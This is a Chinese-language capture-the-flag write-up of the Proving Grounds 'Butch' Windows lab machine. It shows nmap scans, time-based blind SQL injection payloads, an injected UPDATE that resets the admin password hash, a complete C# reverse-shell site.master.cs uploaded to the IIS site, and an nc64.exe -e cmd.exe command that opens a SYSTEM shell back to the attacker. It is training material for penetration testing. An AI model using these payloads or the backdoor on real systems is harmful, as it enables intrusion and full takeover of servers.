









# ProvingGrounds Butch Writeup


## Butch

这是第26台，Windows系统，难度中等，名称 Butch

&gt; If you know your ASP.NET, you will be fine. Otherwise, this machine will teach you some of that.

192.168.225.63


## PortScan

```sh
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/Butch]
└─$ sudo nmap -n -r --min-rate=3500 -sSV 192.168.225.63 -T4
[sudo] xavier 的密码：
Starting Nmap 7.94 ( https://nmap.org ) at 2024-02-12 16:12 CST
Nmap scan report for 192.168.225.63
Host is up (0.19s latency).
Not shown: 995 filtered tcp ports (no-response)
PORT    STATE SERVICE       VERSION
21/tcp  open  ftp           Microsoft ftpd
25/tcp  open  smtp          Microsoft ESMTP 10.0.17763.1
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: Host: butch; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.13 seconds
```


全端口：

```sh
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/Butch]
└─$ sudo nmap -n -r --min-rate=3500 -sSV 192.168.225.63 -T4 -p-
……
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
25/tcp   open  smtp          Microsoft ESMTP 10.0.17763.1
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
450/tcp  open  http          Microsoft IIS httpd 10.0
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)

```


## InitAccess

尝试了ftp匿名登录，SMB匿名访问无果。

### 450-Web

### SQL注入

访问 450 端口是个Web页面的登录口，没有账号密码，测试发现存在SQL注入。



```sh
exec master.dbo.xp_dirtree &#39;\\192.168.45.164\123&#39;;--
sudo responder -I tun0
```

失败，xp_cmdshell失败

只能老老实实的去注入了

```sql
# 枚举数据库名
admin&#39;if(len(db_name()))&gt;=0&#43;waitfor&#43;delay&#43;&#39;0:0:2&#39;;--
admin&#39;if(substring(db_name(),1,1))&gt;=&#39;c&#39;&#43;waitfor&#43;delay&#43;&#39;0:0:2&#39;;--
# 最终得到数据库名为butch

# 枚举表名
admin&#39;if((select&#43;count(name)&#43;from&#43;butch..sysobjects&#43;where&#43;xtype=&#39;u&#39;))&gt;=0&#43;waitfor&#43;delay&#43;&#39;0:0:2&#39;;--  # 有1张表
admin&#39;if((select&#43;len(name)&#43;from&#43;butch..sysobjects&#43;where&#43;xtype=&#39;u&#39;))&gt;=0&#43;waitfor&#43;delay&#43;&#39;0:0:2&#39;;--  # 表名长度为5
admin&#39;if((select&#43;substring(name,1,1)&#43;from&#43;butch..sysobjects&#43;where&#43;xtype=&#39;u&#39;))&gt;=&#39;u&#39;&#43;waitfor&#43;delay&#43;&#39;0:0:2&#39;;--
# 得到表名为 users

# 枚举列名
admin&#39;if((select&#43;count(name)&#43;from&#43;syscolumns&#43;where&#43;id=OBJECT_ID(&#39;users&#39;)))&gt;=4&#43;waitfor&#43;delay&#43;&#39;0:0:2&#39;;--  # 有3列
admin&#39;if((select&#43;top&#43;1&#43;len(name)&#43;from&#43;syscolumns&#43;where&#43;id=OBJECT_ID(&#39;users&#39;)))&gt;=13&#43;waitfor&#43;delay&#43;&#39;0:0:2&#39;;-- #第一列列名长度为13
admin&#39;if((select&#43;top&#43;1&#43;substring(name,1,1)&#43;from&#43;syscolumns&#43;where&#43;id=OBJECT_ID(&#39;users&#39;)))&gt;=&#39;p&#39;&#43;waitfor&#43;delay&#43;&#39;0:0:2&#39;;--
# 得到列名为password_hash,user_id,username

# 枚举字段值
admin&#39;if((select&#43;len(password_hash)&#43;from&#43;butch..users))&gt;=64&#43;waitfor&#43;delay&#43;&#39;0:0:1&#39;;--  # password列长度为64
admin&#39;if((select&#43;substring(password_hash,1,3)&#43;from&#43;butch..users))&gt;=&#39;a&#43;waitfor&#43;delay&#43;&#39;0:0:1&#39;;--
```

因为长度太长了，就不手工跑了，用sqlmap跑下最后的结果

```sh
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/Butch]
└─$ sqlmap -r sqli.txt --level=3 --risk=3 -D butch -T users -C &#39;password_hash&#39;,&#39;username&#39; --technique=T --dbms=mssql --dump --batch
……
[18:08:47] [WARNING] no clear password(s) found                                                         
Database: butch
Table: users
[1 entry]
&#43;------------------------------------------------------------------&#43;----------&#43;
| password_hash                                                    | username |
&#43;------------------------------------------------------------------&#43;----------&#43;
| e7b2b06dd8acded117d6d075673274c4ecdc75a788e09e81bffd84f11af6d267 | butch    |
&#43;------------------------------------------------------------------&#43;----------&#43;
……
```

```sh
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/Butch]
└─$ hashid e7b2b06dd8acded117d6d075673274c4ecdc75a788e09e81bffd84f11af6d267     
Analyzing &#39;e7b2b06dd8acded117d6d075673274c4ecdc75a788e09e81bffd84f11af6d267&#39;
[&#43;] Snefru-256 
[&#43;] SHA-256 
[&#43;] RIPEMD-256 
[&#43;] Haval-256 
[&#43;] GOST R 34.11-94 
[&#43;] GOST CryptoPro S-Box 
[&#43;] SHA3-256 
[&#43;] Skein-256 
[&#43;] Skein-512(256)
```

尝试破解Hash失败。

&gt; 做完题后看了官方walkthrough，这里是通过sqlmap破解的密码Hash，不太明白怎么做到的。
&gt;
&gt; &gt; Since the output contained a password hash, `sqlmap` offers to attempt to crack the hash with a common wordlist. We&#39;ll respond with `Y` or `yes` to proceed.
&gt; &gt;
&gt; &gt; The attempt is successful, revealing a password of `awesomedude`. We can successfully authenticate to the web app with this password.
&gt;
&gt; 我本地的结果是没有跑出来的
&gt;
&gt; 

这时候的另一种方法，就是通过SQL注入修改数据库。

重新设置一个密码，计算其sha256的值

```sh
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/Butch]
└─$ echo &#39;123456&#39; | sha256sum 
e150a1ec81e8e93e1eae2c3a77e66ec6dbd6a3b460f89c1d08aecf422ee401a0  -
```

插入新记录失败

```sql
insert into users(password_hash,user_id,username) values (&#39;e150a1ec81e8e93e1eae2c3a77e66ec6dbd6a3b460f89c1d08aecf422ee401a0&#39;,2,&#39;test&#39;);
```

修改原有记录

```sql
UPDATE users SET password_hash=&#39;e150a1ec81e8e93e1eae2c3a77e66ec6dbd6a3b460f89c1d08aecf422ee401a0&#39; WHERE username=&#39;butch&#39;;
```

还是失败了，错误原因是`echo &#39;123456&#39;`这一步不对，echo默认情况下的输出是带有换行符的，导致计算的结果hash与预期不符。

重新计算Hash，再次修改原有记录：

```sh
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/Butch]
└─$ echo -n &#39;123456&#39; | sha256sum
8d969eef6ecad3c29a3a629280e686cf0c3f5d5a86aff3ca12020c923adc6c92  -

;UPDATE users SET password_hash=&#39;8d969eef6ecad3c29a3a629280e686cf0c3f5d5a86aff3ca12020c923adc6c92&#39; WHERE username=&#39;butch&#39;;
```



使用`butch/123456`成功登录Web后台，发现是个后台上传功能。




### 文件上传

正常情况下的文件上传功能点的思路就是上传webshell，或者覆盖某些配置文件。这里apsx等可执行文件后缀无法上传，Webshell思路走不通。配置文件这块又不太了解。

补充一下，通过上传txt等测试文件，最后在Web根目录下找到了这些文件，确认了这些文件的上传位置。

接下去的知识点都是新学的

Web服务下有个dev目录，包含了一个site.master.txt文件，疑似是源码的一个备份

```c#
&lt;%@ Language=&#34;C#&#34; src=&#34;site.master.cs&#34; Inherits=&#34;MyNamespaceMaster.MyClassMaster&#34; %&gt;
&lt;!DOCTYPE html PUBLIC &#34;-//W3C//DTD XHTML 1.0 Strict//EN&#34; &#34;http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd&#34;&gt;
&lt;html xmlns=&#34;http://www.w3.org/1999/xhtml&#34; lang=&#34;en&#34;&gt;
	&lt;head runat=&#34;server&#34;&gt;
		&lt;title&gt;Butch&lt;/title&gt;
		&lt;meta http-equiv=&#34;Content-Type&#34; content=&#34;text/html; charset=utf-8&#34; /&gt;
		&lt;meta name=&#34;application-name&#34; content=&#34;Butch&#34;&gt;
		&lt;meta name=&#34;author&#34; content=&#34;Butch&#34;&gt;
		&lt;meta name=&#34;description&#34; content=&#34;Butch&#34;&gt;
		&lt;meta name=&#34;keywords&#34; content=&#34;Butch&#34;&gt;
		&lt;link media=&#34;all&#34; href=&#34;style.css&#34; rel=&#34;stylesheet&#34; type=&#34;text/css&#34; /&gt;
		&lt;link id=&#34;favicon&#34; rel=&#34;shortcut icon&#34; type=&#34;image/png&#34; href=&#34;favicon.png&#34; /&gt;
	&lt;/head&gt;
	&lt;body&gt;
		&lt;div id=&#34;wrap&#34;&gt;
			&lt;div id=&#34;header&#34;&gt;Welcome to Butch Repository&lt;/div&gt;
			&lt;div id=&#34;main&#34;&gt;
				&lt;div id=&#34;content&#34;&gt;
					&lt;br /&gt;
					&lt;asp:contentplaceholder id=&#34;ContentPlaceHolder1&#34; runat=&#34;server&#34;&gt;&lt;/asp:contentplaceholder&gt;
					&lt;br /&gt;
				&lt;/div&gt;
			&lt;/div&gt;
		&lt;/div&gt;
	&lt;/body&gt;
&lt;/html&gt;
```

微软官方文档[site.master](https://docs.microsoft.com/en-us/previous-versions/wtxbf3hh(v=vs.140)?redirectedfrom=MSDN) 表明该文件为每个页面提供了一个模板在 ASP.NET MVC 风格的应用程序上。

这块C#的代码不了解，只知道引入了site.master.cs，接下去的思路就是替换这个文件，让它去执行恶意命令。

从这找了个demo进行上传，https://github.com/autofac/Examples/blob/master/src/WebFormsExample/Site.Master.cs

```sh
using System;
using System.Web.UI;

namespace WebFormsExample
{
    public partial class SiteMaster : MasterPage
    {
        protected void Page_Load(object sender, EventArgs e)
        {

        }
    }
}
```



上传成功后，访问首页，首页报500错误，说明至少文件是替换成功了。



这里500之后好像只能重置环境，需要构造好恶意文件再上传。

#### 恶意文件1

使用 [reverse-shell-generator](https://github.com/0dayCTF/reverse-shell-generator) 生成 C#的反弹Shell代码

```sh
using System;
using System.Text;
using System.IO;
using System.Diagnostics;
using System.ComponentModel;
using System.Linq;
using System.Net;
using System.Net.Sockets;


namespace ConnectBack
{
	public class Program
	{
		static StreamWriter streamWriter;

		public static void Main(string[] args)
		{
			using(TcpClient client = new TcpClient(&#34;192.168.45.164&#34;, 4444))
			{
				using(Stream stream = client.GetStream())
				{
					using(StreamReader rdr = new StreamReader(stream))
					{
						streamWriter = new StreamWriter(stream);
						
						StringBuilder strInput = new StringBuilder();

						Process p = new Process();
						p.StartInfo.FileName = &#34;powershell&#34;;
						p.StartInfo.CreateNoWindow = true;
						p.StartInfo.UseShellExecute = false;
						p.StartInfo.RedirectStandardOutput = true;
						p.StartInfo.RedirectStandardInput = true;
						p.StartInfo.RedirectStandardError = true;
						p.OutputDataReceived &#43;= new DataReceivedEventHandler(CmdOutputDataHandler);
						p.Start();
						p.BeginOutputReadLine();

						while(true)
						{
							strInput.Append(rdr.ReadLine());
							//strInput.Append(&#34;\n&#34;);
							p.StandardInput.WriteLine(strInput);
							strInput.Remove(0, strInput.Length);
						}
					}
				}
			}
		}

		private static void CmdOutputDataHandler(object sendingProcess, DataReceivedEventArgs outLine)
        {
            StringBuilder strOutput = new StringBuilder();

            if (!String.IsNullOrEmpty(outLine.Data))
            {
                try
                {
                    strOutput.Append(outLine.Data);
                    streamWriter.WriteLine(strOutput);
                    streamWriter.Flush();
                }
                catch (Exception err) { }
            }
        }

	}
}
```




构造恶意文件：

```c#
using System;
using System.Web.UI;
using System.Text;
using System.IO;
using System.Diagnostics;
using System.ComponentModel;
using System.Linq;
using System.Net;
using System.Net.Sockets;

namespace MyNamespaceMaster
{
	public partial class MyClassMaster : MasterPage
	{
    static StreamWriter streamWriter;
		protected void Page_Load(object sender, EventArgs e)
		{
			using(TcpClient client = new TcpClient(&#34;192.168.45.164&#34;, 445))
			{
				using(Stream stream = client.GetStream())
				{
					using(StreamReader rdr = new StreamReader(stream))
					{
						streamWriter = new StreamWriter(stream);
						StringBuilder strInput = new StringBuilder();

						Process p = new Process();
						p.StartInfo.FileName = &#34;cmd.exe&#34;;
						p.StartInfo.CreateNoWindow = true;
						p.StartInfo.UseShellExecute = false;
						p.StartInfo.RedirectStandardOutput = true;
						p.StartInfo.RedirectStandardInput = true;
						p.StartInfo.RedirectStandardError = true;
						p.OutputDataReceived &#43;= new DataReceivedEventHandler(CmdOutputDataHandler);
						p.Start();
						p.BeginOutputReadLine();

						while(true)
						{
							strInput.Append(rdr.ReadLine());
							//strInput.Append(&#34;\n&#34;);
							p.StandardInput.WriteLine(strInput);
							strInput.Remove(0, strInput.Length);
						}
					}
				}
			}
		}

		private static void CmdOutputDataHandler(object sendingProcess, DataReceivedEventArgs outLine)
        {
            StringBuilder strOutput = new StringBuilder();
            if (!String.IsNullOrEmpty(outLine.Data))
            {
                try
                {
                    strOutput.Append(outLine.Data);
                    streamWriter.WriteLine(strOutput);
                    streamWriter.Flush();
                }
                catch (Exception err) { }
            }
        }

	}
}
```

测试过程中发现有端口限制，最后采用445端口，成功回连。

将恶意文件site.master.cs进行上传



Kali端启用nc监听445端口，然后刷新Web页面，成功收到回连。

```sh
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/Butch]
└─$ nc -nlvp 445
listening on [any] 445 ...
connect to [192.168.45.164] from (UNKNOWN) [192.168.225.63] 49821
Microsoft Windows [Version 10.0.17763.1217]
(c) 2018 Microsoft Corporation. All rights reserved.
whoami
c:\windows\system32\inetsrv&gt;whoami
nt authority\system
```

由于这个连接是基于Web的，存在超时限制，需要建立一个稳定的shell

由于有端口限制，因此选择Kali侧开启smb服务进行文件传输

```sh
┌──(xavier㉿kali)-[~/Desktop/OSCP/tools/win]
└─$ impacket-smbserver share $(pwd) -smb2support
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
……
```

Windows端接收文件：

```sh
C:\tmp&gt;copy \\192.168.45.164\share\nc64.exe .
        1 file(s) copied.

C:\tmp&gt;dir
 Volume in drive C has no label.
 Volume Serial Number is D4C7-EAE0
 Directory of C:\tmp
02/12/2024  04:46 AM    &lt;DIR&gt;          .
02/12/2024  04:46 AM    &lt;DIR&gt;          ..
12/25/2010  09:31 PM            43,696 nc64.exe
               1 File(s)         43,696 bytes
               2 Dir(s)  33,599,651,840 bytes free
```

再使用nc建立一个稳定的shell

```sh
C:\tmp&gt;nc64.exe 192.168.45.164 21 -e cmd.exe
```


```sh
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/Butch]
└─$ nc -nlvp 21
listening on [any] 21 ...
connect to [192.168.45.164] from (UNKNOWN) [192.168.225.63] 49829
Microsoft Windows [Version 10.0.17763.1217]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\tmp&gt;whoami
whoami
nt authority\system

C:\tmp&gt;powershell
powershell
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\tmp&gt; type C:\users\administrator\desktop\proof.txt
type C:\users\administrator\desktop\proof.txt
8efb9ecaa9dd953e25de084f5db30648
PS C:\tmp&gt; type C:\users\butch\desktop\local.txt
type C:\users\butch\desktop\local.txt
0f5cfaf654fe39337300f602295effb4
PS C:\tmp&gt; 

PS C:\tmp&gt; 
```

#### 恶意文件2

从官方答案中看到的方法，不改 site.master.cs 文件，而是改 site.master。

